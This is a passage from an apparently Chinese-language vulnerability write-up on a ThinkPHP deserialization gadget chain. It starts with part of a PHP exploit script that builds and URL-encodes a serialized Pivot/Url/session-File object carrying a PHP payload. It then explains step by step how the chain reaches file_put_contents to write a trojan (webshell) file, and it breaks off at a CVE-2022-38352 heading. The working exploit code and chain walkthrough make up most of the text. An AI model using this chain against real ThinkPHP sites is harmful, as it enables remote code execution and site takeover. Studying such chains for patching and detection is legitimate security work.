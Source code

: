 ```plain
    class Pivot extends Model{}
}

namespace think\route{
    class Url
    {
        protected $url = 'a:';
        protected $domain;
        protected $app;
        protected $route;
        function __construct($app,$route,$cmd){
            $this->domain = $cmd;
            $this->app = $app;
            $this->route = $route;
        }
    }
}


namespace{
    $zoe='<?= phpinfo(); exit();//';
    echo urlencode(serialize(new think\Model\Pivot($zoe,new think\session\driver\File)));
}
```

### 分析

入口点在 think\\Model\\的**destruct() 方法进入 save() 方法进入 insertData() 方法进入 checkAllowFields() 方法进入 db() 方法执行$query->table($this->table . $this->suffix);语句此时开始进入链子了，拼接对象和字符串造成 toString 魔术方法调用，think\\route 的 Url.phpif 语句一直进不去，最后跑到  
$bind = $this->route->getDomainBind($domain && is\_string($domain) ? $domain : null);  
然后进入 getDomainBind() 方法，这里设置了 domain 的值，直接进入了 Output.php 的**call() 方法：call\_user\_func\_array(\[$this, 'block'\], $args);  
Output.php 的 block() 方法->writeln() 方法  
$this->writeln("<{$style}>{$message}</$style>");  
Output.php 的 writeln() 方法->write() 方法： 
$this->write($messages, true, $type);  
此时 message 为<getdomainbind>write() 方法  
$this->handle->write($messages, $newline, $type);  
$this->handle 被设置的 League\\Flysystem\\File，调用它的 write() 方法</getdomainbind>

```plain
public function write($content)  
{  
    return $this->filesystem->write($this->path, $content);  
}
```

$this->filesystem 被设置的 think\\session\\driver\\File，调用它的 write() 方法：最后执行 file\_put\_contents 写入木马文件

## CVE-2022-38352
